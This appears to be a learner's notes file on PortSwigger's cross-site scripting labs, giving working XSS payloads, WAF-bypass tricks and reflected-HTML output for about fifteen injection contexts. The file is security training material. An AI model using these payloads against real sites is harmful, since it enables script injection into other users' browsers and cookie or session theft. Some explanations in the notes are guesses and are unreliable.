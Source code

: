 # **xss burp labs**
https://portswigger.net/web-security/cross-site-scripting


# **Reflected XSS**
https://portswigger.net/web-security/cross-site-scripting/reflected



# **Exploiting cross-site scripting vulnerabilities - 3 labs**
https://portswigger.net/web-security/cross-site-scripting/exploiting

# ***1. Lab: Exploiting cross-site scripting to steal cookies***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies
// require burp colaborator - not solved


# ***2. Lab: Exploiting cross-site scripting to capture passwords***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords
// require burp colaborator - not solved


# ***3. Lab: Exploiting XSS to perform CSRF***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
// not solved



# **Cross-site scripting contexts - 15 labs**
https://portswigger.net/web-security/cross-site-scripting/contexts


# ***1. Lab: Reflected XSS into HTML context with nothing encoded***
https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

search field:
<script>alert(1)</script>

# ***2. Lab: Stored XSS into HTML context with nothing encoded***
https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

test 1 - <script>alert(document.cookie)</script>


# ***3. Lab: Reflected XSS into HTML context with most tags and attributes blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked
1. try baseline xss:
    GET /?search=<script>alert(1)</script> HTTP/1.1
    response:
    "Tag is not allowed"

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
    GET /?search=§§ HTTP/1.1

    200 responses:
    GET /?search=<body> HTTP/1.1          //not blocked!


3. check event for blockage (using portswigger cheatsheet event list via intruder:):
    GET /?search=§§ HTTP/1.1

    200 responses:
        GET /?search=<body%20onresize=1> HTTP/1.1          //not blocked!


4. lets craft an html page with an iframe containig the search payload. the iframe also contains a command (executed on load) to resize its width - causing the payload to be fired:
    <iframe src="https://0ac8001d04a89eb9c0751d16007f0036.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>

# POP!


# ***4. Lab: Reflected XSS into HTML context with all tags blocked except custom ones***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked
1. try baseline xss:
<script>alert(1)</script>
tags blocked!

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
all known tags are bloced

3. check custom tags sing portswigger cheatsheet tag list via intruder:
all custom tags are not blocked

lets look for a payload from custom tags:
<xss id=x tabindex=1 onfocus=alert(1)></xss>

we will put it in a link to the search term and add hash call ("#") for the tag "x":

<script>
location = 'https://0a310080041f2ce7c0c165c1004c0044.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(1)></xss>#x';
</script>

explanation:
location =                                                                      // JS command elling browser to go to a 
'https://0a310080041f2ce7c0c165c1004c0044.web-security-academy.net/?search=     // exploitable URL and inject
<xss id=x tabindex=1 onfocus=alert(1)></xss>                                    // payload utilizing custom tag (to bypass waf)
#x                                                                              // and fire it up with hash (correspondes with id=x and uses tabindex to autofocus the element)

see: 
https://portswigger.net/research/one-xss-cheatsheet-to-rule-them-all



# ***5. Lab: Reflected XSS with event handlers and href attributes blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked

label your vector with the word "Click":
<a href="">Click me</a>

1. try baseline xss:
<script>alert(1)</script>
"Tag is not allowed" 400

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
GET /?search=§§ HTTP/1.1

200 responses:
GET /?search=<a> HTTP/1.1
GET /?search=<animate> HTTP/1.1
GET /?search=<image> HTTP/1.1
GET /?search=<svg> HTTP/1.1
GET /?search=<title> HTTP/1.1

3. try adoptaion of last payload with <a> tag
<a id=x tabindex=1\000onfocus=alert(1)>Click me</a>
"Event is not allowed" 400

4. check event types for blockage (using portswigger cheatsheet event list via intruder:):
all event in the cheetlist are blocked by waf

5. look for eventless payload - using find on the cheetsheet for animate we get:
<svg x=">" onload=alert(1)> 

breakdown:
//    1. the ">" makes WAF thinks its the end of the tag so he doesnt block the onload event handler. 
//    2. why it works also without the "click" string - IDK

POP!

original Polyglot XSS payload:
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
by @s0md3v from:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#polyglot-xss


portswiggers payload (requiers user interaction)
<svg><a><animate attributeName=href values=javascript:alert(2) /><text x=20 y=20>Click me</text></a>

    # ***1. breakdown:
    <svg>   // whitelisted tag 
        <a>     // whitelisted tag ??? why need 2 tags?
            <animate attributeName=href values=javascript:alert(1) />
            <text x=20 y=20>Click me</text>
    </a> -->

==

# ***6. Lab: Reflected XSS with some SVG markup allowed***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

<svg x=">" onload=alert(1)> 

# ***7. Lab: Reflected XSS into attribute with angle brackets HTML-encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded
<script>alert(1)</script>
reflects twice on page:
1. inside a header:
    <h1>0 search results for ''&gt;&lt;script&gt;alert(1)&lt;/script&gt;'o'</h1>
2. in the search bar:
    <input type="text" placeholder="Search the blog..." name="search" value="<script>alert(1)</script>">

the <h1> tag escape tries fails so going to <input> tag and changing to event handler payload:
    " autofocus onfocus=alert(document.domain) x="
reflected as:
    <input type="text" placeholder="Search the blog..." name="search" value="" autofocus="" onfocus="alert(document.domain)" x="">
POP!



# ***8. Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded


To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

1 try:
POST /post/comment HTTP/1.1

csrf=zldcOMiQQXjD7RtgPjTfwZEypoHRh2KP&postId=4&comment=walla%3F&name=hacker&email=clean%40token.com&website=test.com

response:
<p><img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="website=test.com">hacker</a> | 03 July 2022</p>

change href attribute value from "website=test.com" to "javascript:alert()" and resend via repeater

now we get clickble link that preform XSS POC

POP!

# ***9. Lab: Reflected XSS in canonical link tag***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

for canonical manipultion lets try adding arbitary paramaeter to the URL:
    ?test
full path: 
    https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?test

reflect:
    <head>
    ..
        <link rel="canonical" href='https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?test'/>
    ..
    </head>

lets change "?test" with payload:
    ?'accesskey='x'onclick='alert(1)


payload breakdown:
    ?                   // param
    '                   //breaks out of href field - wired since in js it uses ". maybe php back server uses ' ?
    accesskey='x'       // define shortcut key "x"  
    onclick='alert(1)   // when accessed via "x" key preform this action 

    // **access key to be accessed by ALT+SHIF+"x" in firefox.(in chrome/IE/safari/Opera15+ its just ALT+"X")


full path:
    https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)


reflection:
    <head>
    ..
        <link rel="canonical" href="https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
    
    <!-- no need for user interaction if we just use autofocus onfocus?
    ?'autofocus+onfocus%3dalert()
    full path
    https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?'autofocus+onfocus%3dalert()

    ?tabindex=1+id=x+onfocus%3dalert(3) -->


# ***10. Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped

hint:
</script><img src=1 onerror=alert(document.domain)>

test - search for test and look for reflections:
GET /?search=test HTTP/1.1

reflection:
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

payload to escape the code:
</script><img src=1 onerror=alert(document.domain)>

reflection:
    <script>
        var searchTerms = '\'</script><img src=1 onerror=alert(document.domain)>';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>



POP!

# ***11. Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

hints:
    '-alert(document.domain)-'
    ';alert(document.domain)//


test - search for test and look for reflections:
GET /?search=test HTTP/1.1

reflection:
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

trying prevoius payload:
'</script><img src=1 onerror=alert(document.domain)>

reflection:
                   <script>
                        var searchTerms = ''&lt;/script&gt;&lt;img src=1 onerror=alert(document.domain)&gt;';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>

payloads (since we already inside script) - both works:
';alert(document.domain)//
'-alert(document.domain)-'

reflections:
    <script>
        var searchTerms = '';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
    <script>
        var searchTerms = ''-alert(document.domain)-'';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

POP!

# ***12. Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped

test last payload:
    GET /?search=';alert(document.domain)//  HTTP/1.1

reflection
    <script>
        var searchTerms = '\';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

' is escaped

use double escape ' to breakout:
    GET /?search=\';alert(document.domain)// HTTP/1.1

reflection:
    <script>
        var searchTerms = '\\';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

payload:
    \';alert(document.domain)//


# ***13. Lab: Reflected XSS in a JavaScript URL with some characters blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked

hint:
    onerror=alert;throw 1

test:
POST /post/comment HTTP/1.1

csrf=L51ljiFGeK4JW8fE59ZWWdebbnezsNCc&postId=3&comment=test&name=test&email=clean%40token.com&website=https:test.

reflection
    <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="http://test.">test</a> | 03 July 2022
    </p>

check1:
    https://'<script>alert()</script>

reflection:
    <a id="author" href="https://&apos;&lt;script&gt;alert()&lt;/script&gt;">test</a>

check2:
https://"+onerror=alert;throw+1337

<a id="author" href="https://&quot; onerror=alert;throw 1337">test</a>

https://0a1800cb03087020c0b574f400240037.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27


port solution:
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:'

???


# ***14. Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

try:
    http://alert')
reflection:
    <a id="author" href="http://alert\')" onclick="var tracker={track(){}};tracker.track('http://alert\')');">

try:
    http://alert\')
reflection:
    <a id="author" href="http://alert\')" onclick="var tracker={track(){}};tracker.track('http://alert\\\');">
learned: \ and ' are escaped

try (aubstitues to '):
    '%27\x27&#39;&apos;
reflect:
    <a id="author" href="http://\'\'\\x27&#39;&apos;" onclick="var tracker={track(){}};tracker.track('http://\'\'\\x27&#39;&apos;');">
learned: hex escape (\x00) and octa escape(\00)) are useless here


try (HtmlEnc --> UrlEnc):
    http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert")
        http://%26apos%3b%26%2337%3b%26%2350%3b%26%2355%3b%26%2392%3b%26%23120%3b%26%2350%3b%26%2355%3b%26amp%3b%26%2335%3b%26%2351%3b%26%2357%3b%26%2359%3b%26amp%3b%26%2397%3b%26%23112%3b%26%23111%3b%26%23115%3b%26%2359;alert")
reflect:
 <a id="author" href="http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert&quot;)" onclick="var tracker={track(){}};tracker.track('http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert&quot;)');">

browser do URL decode but not HTML decode


" http://alert "
' http://alert '
are they different? '/" ?

try:
    http://alert")
reflect:
<a id="author" href="http://alert&quot;)" onclick="var tracker={track(){}};tracker.track('http://alert&quot;)');">

try:
    "%22\x22&#34;&quot;
reflect:
    <a id="author" href="http://&quot;&quot;\\x22&#34;&quot;tpalert&quot;)" onclick="var tracker={track(){}};tracker.track('http://&quot;&quot;\\x22&#34;&quot;tpalert&quot;)');">


try (aubstitues to '):
    http://'%27%26#39;%26apos;alert()
try (urlencoded X1)
'%2527%26%2339%3b%26apos%3balert

reflect:
    <a id="author" href="http://\'%27%26#39;%26apos;alert()" onclick="var tracker={track(){}};tracker.track('http://\'%27%26#39;%26apos;alert()');">

try (urlencode X2):
http%3a//'%2527%2526%2339%3b%2526apos%3balert()
    <a id="author" href="http://\'%27%26#39;%26apos;alert()" onclick="var tracker={track(){}};tracker.track('http://\'%27%26#39;%26apos;alert()');">


try:
https://0a1c00a404fd51e9c1e76ff900ec007f.web-security-academy.net/%26#39;'--%0d%0a;alert(document.domain)//
ref:
https://0a1c00a404fd51e9c1e76ff900ec007f.web-security-academy.net/'/'--!%3E;alert(document.domain)//



post solutions:
http://foo?&apos;-alert(1)-&apos;

?? do you send it as is or do you url encode the & ?




# ***15. Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped

hint: ${alert(document.domain)}

try:
```
test`\
```
reflection in response:
    <script>
        var message = `0 search results for 'test\u0060\u005c'`;
        document.getElementById('searchMessage').innerText = message;
    </script>

payload:
${alert(document.domain)} 



$) // just to close previous topic



# **Exploiting cross-site scripting vulnerabilities**
https://portswigger.net/web-security/cross-site-scripting/exploiting

# 1***. Lab: Exploiting cross-site scripting to steal cookies***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

require pro
# TBC


# 2. ***Lab: Exploiting cross-site scripting to capture passwords***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords

require pro
# TBC


# ***3. Lab: Exploiting XSS to perform CSRF***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

require pro
# TBC












<!-- 
# **AngularJS sandbox**
https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox


# ***1. Lab: Reflected XSS with AngularJS sandbox escape without strings***

<script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = 'test';
    $scope.value = $parse(key)($scope.query);
});</script>

# TBC -->



